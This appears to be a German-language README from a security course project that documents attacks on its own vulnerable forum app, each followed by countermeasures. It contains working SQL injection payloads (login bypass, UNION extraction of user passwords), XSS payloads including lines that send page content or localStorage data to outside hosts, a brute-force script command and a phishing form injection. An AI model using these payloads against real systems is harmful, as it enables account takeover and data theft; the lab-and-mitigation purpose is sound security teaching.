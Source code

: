 # SQL Injections
1. Um einen Hinweis darauf zu erlangen, wie die SQL-Query aussieht, welche für den Login verwendet wird kann man `"` in das login-feld eingeben. Aus dem Error, kann dann die Query entnommen werden.
2. Mit dem erlangten Wissen kann nun der Angriff durchgeführt werden, indem folgendes 
`" OR 1 = 1 # ` in das login-Username feld eingetragen wird. Hierdurch kann man sich einloggen ohne credentials zu nutzen.

### Union Attack 
1. Die verwendete Query, für die Suche, kann herausgefunden werden, indem man `%'` in das suchfeld postet. Man bekommt hier dann eine Fehlermeldung zurück welche einem einen Hinsweis darauf gibt, wie die SQL-Query aussieht die verwendet wird.
2. Für einen "UNION" befehl müssen die Select-Statements derer Ergebnisse zurück gegeben werden sollen, die gleiche Anzahl an Columns haben. Um herauszufinden wie viele columns in dem table (Thread Table) sind der von der Suchfeld-query aufgerufen wird kann folgende query verwendet werden: `%' ORDER BY 4-- `. Die Zahl sollte immer weiter eröht werden, bis ein Error zurück gegeben wird. Sobald das geschieht weiß man dass die verwendete Zahl minus Eins die Anzahl der Columns ist.
3. Weiß man nun also wie viele Columns in dem table enthalten sind kann man die query für die Union-Attack formulieren:
`%' UNION SELECT NULL, username, passw, NULL, NULL FROM Users -- `, wobei die die Anzahl der "NULL" + die Anzahl der gewollten column-names der vorher herausgefundenen Anzahl der Columns entsprechen muss. Das Ergebnis hieraus ist, dass man die normalen Ergebnisse der Such-Query mit dem Select-Statement für den Users Table verbindet um nicht nur die Threads von der Datenbank zurück zu bekommen, sondern eben auch die Ergebnisse aus dem Users Table. In unserem Fall würden wir also auch Ergebnisse aus den "username" und "passw" columns des Users Table zusammen mit den Threads zurück geliefert bekommen.

## Maßnahmen
Escaping and query values:
https://github.com/mysqljs/mysql#escaping-query-values (Placeholders: https://mariadb.com/kb/en/connector-nodejs-promise-api/)


# Cross-Site Scripting
Reflected XSS
Insert <script>alert();</script>
https://www.imperva.com/learn/application-security/reflected-xss-attacks/#:~:text=Reflected%20XSS%20attacks%2C%20also%20known,enables%20execution%20of%20malicious%20scripts.
https://www.youtube.com/watch?v=T0vxdqvW9fU&list=LL&index=3
```js
<script>alert(document.cookie); </script>
<img src="http://url.to.file.which/not.exist" onerror= document.body.innerHTML = "<h1>You got hacked</h1>";>
<IMG SRC=j&#X41vascript:alert('test2')>
<script>new Image().src="https://192.165.159.122/fakepg.php?output="+document.body.innerHTML</script>
<img 
  src="https://jnx.me/img/profile.jpg" 
  style="display:none" 
  onload="fetch('https://enj917gkdfyp.x.pipedream.net/', {method: 'POST', body: localStorage.getItem('account')})"
>
```

## Maßnahmen
https://v2.vuejs.org/v2/guide/security.html#:~:text=The%20most%20fundamental%20security%20rule%20when%20using%20Vue,during%20server-side%20rendering.%20An%20example%20of%20such%20usage%3A

https://www.npmjs.com/package/sanitize-html

# Brute-force attack
Is possible because we do not check how many requests have been sent by one user

To start the brute-force script navigate to the "Attacks" directory and preform the following command:

```
python -m pip install selenium
python brute-force.py -u admin -t http://localhost:8081/loginPage -p passwords.txt
```

## Maßnahmen
Using a rate limiter: https://www.npmjs.com/package/express-rate-limit

# Broken Encryption
Möglich wegen veraltetem Hashalgorythmus (SHA256) und weil kein Salt verwendet wird sind alle hashes deterministisch. Dadurch ist das verwenden eines Rainbowtables möglich.

## Maßnahmen
Using bcrypt for hashing passwords: https://en.wikipedia.org/wiki/Bcrypt

# HTML Injections
(Phishing)
```html
<h3>Please login to proceed</h3>
<form action=http://www.google.com>
Username:<br>
<input type="username" name="username"></br>
Password:<br>
<input type="password" name="password"></br>
<br>
<input type="submit" value="Login"></br>
```

## Maßnahmen
https://www.npmjs.com/package/sanitize-html